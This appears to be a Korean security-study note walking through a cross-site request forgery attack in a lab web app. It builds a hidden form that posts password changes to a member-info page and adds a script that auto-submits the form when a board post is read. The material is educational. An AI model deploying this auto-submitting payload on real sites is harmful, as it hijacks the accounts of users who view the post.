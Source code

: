   - 텍스트 안보이게 수정 > 게시판 글 작성

    ```
    <form name="mform" method="post" action="http://172.16.0.111/member/member_info_change.php">
    <input type="text" value="222222" name="user_pw1" size="20" maxlength="20">	
    <input type="text" value="222222" name="user_pw2" size="20" maxlength="20">
    <input type="number" name="age" size="30" min="0" max="150" value=30>
    <input type="text" name="nick" size="30" maxlength="30" value=u01>
    <input type="text" name="email" size="30" maxlength="30" value=test01@test>
    <input type="submit" value="수정">
    <input type="reset" value="삭제">
    </form>
    ```

    ![화면 캡처 2022-10-28 191554](../../assets/img/화면 캡처 2022-10-28 191554.png)

  - 내용이 보이지 않게 태그를 수정

    ```
    <form name="mform" method="post" action="http://172.16.0.111/member/member_info_change.php">
    <input type="hidden" value="222222" name="user_pw1" size="20" maxlength="20">	
    <input type="hidden" value="222222" name="user_pw2" size="20" maxlength="20">
    <input type="hidden" name="age" size="30" min="0" max="150" value=30>
    <input type="hidden" name="nick" size="30" maxlength="30" value=u01>
    <input type="hidden" name="email" size="30" maxlength="30" value=test01@test>
    <input type="submit" value="수정">
    <input type="reset" value="삭제">
    </form>
    ```

    ![화면 캡처 2022-10-28 191626](../../assets/img/화면 캡처 2022-10-28 191626.png)

  - 자동으로 submit : javascript 를 이용 하여 코드 작성후 게시판에 글 작성 후 글읽기

    ```
    <form id="hack" name="mform" method="post" action="http://172.16.0.111/member/member_info_change.php">
    <input type="hidden" value="444444" name="user_pw1" size="20" maxlength="20">	
    <input type="hidden" value="444444" name="user_pw2" size="20" maxlength="20">
    <input type="hidden" name="age" size="30" min="0" max="150" value=30>
    <input type="hidden" name="nick" size="30" maxlength="30" value=u01>
    <input type="hidden" name="email" size="30" maxlength="30" value=test01@test>
    </form>
    <script>document.getElementById("hack").submit()</script>
    ```

    ![화면 캡처 2022-10-28 193347](../../assets/img/화면 캡처 2022-10-28 193347.png)

    ![화면 캡처 2022-10-28 193411](../../assets/img/화면 캡처 2022-10-28 193411.png)

  - 회원정보 수정 화면이 안나오게 수정
